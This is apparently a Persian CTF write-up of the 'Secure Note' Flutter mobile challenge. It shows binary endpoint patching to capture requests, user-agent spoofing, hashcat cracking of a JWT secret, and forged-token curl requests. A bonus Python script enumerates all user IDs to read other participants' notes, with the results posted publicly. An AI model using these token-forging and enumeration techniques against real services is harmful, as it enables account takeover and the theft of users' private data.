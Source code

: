 ```yaml
---
tags:
  - CyberSpace
  - CyberSpace-2024
  - Reverse
  - Android
  - Flutter
---
```


اگه چلنج [login](./login.md) رو دیده باشین از ابزار [blutter](https://github.com/worawit/blutter) برای ریورس فلاتر استفاده کردیم

تو این چلنج هم همین کارو میکنیم

این دفعه یکم کارمون سخت تره چون چلنج سخت تری هم هست :joy:

Anyway بریم سراغ چلنج

ایندفعه چندین سورس داریم که نیازه اکثرشون رو چک کنیم

![files](secure-note-1.png)

بعد از بررسی اجمالی سورس ها به یه سری اندپوینت میرسیم

https://securenotesmobile-challs.csc.tf/register

https://securenotesmobile-challs.csc.tf/login

https://securenotesmobile-challs.csc.tf/notes

https://securenotesmobile-challs.csc.tf/create_note

اگه یه درخواست ساده curl به سمتشون ارسال کنیم، میبینیم که باید متد post ارسال کنیم

پس میگردیم دنبال اسم فیلد های هر اندپوینت

![curl](secure-note-2.png)

https://securenotesmobile-challs.csc.tf/register => Content-Type: application/json; charset=UTF-8, username, password

پس میشه همچین دستوری

```bash
curl https://securenotesmobile-challs.csc.tf/register -H "Content-Type: application/json; charset=UTF-8" --data-raw '{"username": "iam", "password": "SafaSafari"}' -i
```

![403](secure-note-3.png)

اما صبر کنید

داره ۴۰۳ میده!!

یعنی فهمیده که خود برنامه درخواست نمیزنه و ما با curl بازسازیش کردیم

خوب ما در اصل چندین پارامتر داریم که میتونه این رو لو بده

یکی از ساده تریناش user-agent هست

پس باید ببینیم برنامه چه user-agent ای ارسال میکنه سمت سرور و ما هم با همون user-agent بفرستیم

یه راهی که تو بقیه رایتاپ ها اومده و من زیاد از پروژش خوشم نمیاد اینه که میان ssl pinning توی فلاتر رو با ابزار [reflutter](https://github.com/ptswarm/reFlutter) حذف میکنن و درخواست رو اسنیف میکنن

اما ما میخوایم به یه روش باحال تر چلنج رو حل کنیم

یه قانون نانوشته تو ریورس باینری هست اونم اینه که شما میتونید بدون تغییر دادن length استرینگ ها، اونا رو تغییر بدین

من یه سایت دارم که همه درخواست هایی که بهش میاد رو ذخیره میکنم تو یه کانال تلگرامی

پس میایم و این اندپوینت رو تغییر میدیم

https://securenotesmobile-challs.csc.tf/register => https://i.safa.re/smobile-challs.csc.tf/register

و باینری رو میزاریم سر جاش و تو موبایل برنامه رو اجرا میکنیم و تو کانال منتظر دریافت درخواست میمونیم

![ip log](secure-note-4.png)

پس یوزر ایجنت باید `Dart/3.3 (dart:io)` باشه

```bash
curl https://securenotesmobile-challs.csc.tf/register -H "Content-Type: application/json; charset=UTF-8" --data-raw '{"username": "iam", "password": "SafaSafari"}' -A "Dart/3.3 (dart:io)"
```

![200](secure-note-5.png)

و بعد لاگین

![login](secure-note-6.png)

حالا چی؟

یه jwt بهمون داده که نمیدونیم کجا لوله کنیم =))))))

اگه قسمت payload رو چک کنیم با همچین چیزی مواجه میشیم

```json
{
    "fresh": false,
    "iat": 1725614233,
    "jti": "4646cba7-c0ee-4f71-980b-fcaa418558ef",
    "type": "access",
    "sub": 261,
    "nbf": 1725614233,
    "csrf": "a9040a64-8d22-49bf-baa3-79d4b1803a3b",
    "exp": 1725615133
}
```

اون پارامتر sub منظورش همون یوزر آیدی هست

حدس میزنم ادمین فلگ رو به عنوان یه نوت ذخیره کرده باشه

اما ما که سکرت jwt رو نداریم

چیکار کنیم؟

کرک =)))

```bash
hashcat -m 16500 "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcyNTEzOTI1MywianRpIjoiZDM5M2ViZTktNTFmMy00YjRiLTk0MGMtMmI0ZTMxYzI2Yzc4IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MTE4LCJuYmYiOjE3MjUxMzkyNTMsImNzcmYiOiJjYzE0MDY2MC0zNjVjLTQxNWQtOWZmMC1kYWY1ZGI5ZTEyZTciLCJleHAiOjE3MjUxNDAxNTN9.yrhuzsNCJPcs2OdWd83lrXmaN7Ho0r8z9QHFaK226sI" /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

با استفاده از hashcat و این کامند، هش رو میزنیم رو کرک به امید این که سکرت اش در بیاد

و در میاد =)))))

![hashcat](secure-note-7.png)

پس سکرت jwt امون `789456123` هست

میریم سراغ [سابیرشف](https://gchq.github.io/CyberChef/) دوست داشتنی

![cyberchef](secure-note-8.png)

توکنی که از سایبرشف دریافت کردیم رو میزاریم تو اندپوینتی که مربوط به لود کردن note هاس

```bash
curl https://securenotesmobile-challs.csc.tf/notes -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcyNTYxNDIzMywianRpIjoiNDY0NmNiYTctYzBlZS00ZjcxLTk4MGItZmNhYTQxODU1OGVmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MSwibmJmIjoxNzI1NjE0MjMzLCJjc3JmIjoiYTkwNDBhNjQtOGQyMi00OWJmLWJhYTMtNzlkNGIxODAzYTNiIiwiZXhwIjoxNzI1NjE1MTMzfQ.bKPJV_aP7EO21vBnIcbmLRGQKvlbY_xNQnHqnwhbGnY" -H "User-Agent: Dart/3.3 (dart:io)"
```

![flag](secure-note-9.png)

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`CSCTF{1_w0nd3r_1f_y0u_f0r607_7h3_u53r_463n7}`</div>
---

bonus

از اونجایی که من خیلی فضولم، یه اسکریپت نوشتم تا نوت های بقیه افراد رو هم ببینم =))))

```python
import jwt
import requests


for i in range(1, 262):
    token = jwt.encode({"fresh":False,"iat":1725614233,"jti":"4646cba7-c0ee-4f71-980b-fcaa418558ef","type":"access","sub":i,"nbf":1725614233,"csrf":"a9040a64-8d22-49bf-baa3-79d4b1803a3b","exp":1825615133}, "789456123")
    print(requests.get("https://securenotesmobile-challs.csc.tf/notes", headers={"User-Agent": "Dart/3.3 (dart:io)", "Authorization": "Bearer {}".format(token)}).json())
```

اگه براتون جالبه، یه بار رانش کردم و نتیجش رو گذاشتم [اینجا](https://pastecode.io/s/7c25azjj)

!!! نویسنده
    [SafaSafari](https://twitter.com/SafaSafari3)